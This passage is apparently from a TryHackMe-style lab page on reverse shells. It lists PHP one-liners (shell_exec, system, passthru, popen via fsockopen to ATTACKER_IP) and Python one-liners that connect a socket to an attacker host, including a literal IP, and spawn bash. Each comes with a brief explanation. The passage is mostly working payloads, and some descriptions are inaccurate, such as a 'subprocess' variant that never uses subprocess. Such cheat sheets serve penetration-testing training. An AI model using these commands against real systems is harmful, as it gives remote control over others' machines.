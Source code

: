 **PHP Reverse Shell Using the shell_exec Function**
```bash 
target@tryhackme:~$ php -r '$sock=fsockopen("ATTACKER_IP",443);shell_exec("sh <&3 >&3 2>&3");'
```
Similar to the previous command, but uses the `shell_exec` function.

**PHP Reverse Shell Using the system Function**
```bash 
target@tryhackme:~$ php -r '$sock=fsockopen("ATTACKER_IP",443);system("sh <&3 >&3 2>&3");' 
```
This reverse shell employs the `system` function, which executes the command and outputs the result to the browser.

**PHP Reverse Shell Using the passthru Function**
```bash 
target@tryhackme:~$ php -r '$sock=fsockopen("ATTACKER_IP",443);passthru("sh <&3 >&3 2>&3");'
```
The `passthru` function executes a command and sends raw output back to the browser. This is useful when working with binary data.

**PHP Reverse Shell Using the popen Function**
```bash 
target@tryhackme:~$ php -r '$sock=fsockopen("ATTACKER_IP",443);popen("sh <&3 >&3 2>&3", "r");' 
```
This reverse shell uses `popen` to open a process file pointer, allowing the shell to be executed.

### Python
Please note, the following snippets below require using `python -c` to run, indicated by the placeholder PY-C

**Python Reverse Shell by Exporting Environment Variables**
```bash 
target@tryhackme:~$ export RHOST="ATTACKER_IP"; export RPORT=443; PY-C 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("bash")' 
```
This reverse shell sets the remote host and port as environment variables, creates a socket connection, and duplicates the socket file descriptor for standard input/output.

**Python Reverse Shell Using the subprocess Module**
```bash 
target@tryhackme:~$ PY-C 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.4.99.209",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")'
```
This reverse shell uses the `subprocess` module to spawn a shell and set up a similar environment as the Python Reverse Shell by Exporting Environment Variables command.

**Short Python Reverse Shell**
```bash 
PY-C 'import os,pty,socket;s=socket.socket();s.connect(("ATTACKER_IP",443));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("bash")'
```
This reverse shell creates a socket (`s`), connects to the attacker, and redirects standard input, output, and error to the socket using `os.dup2()`.

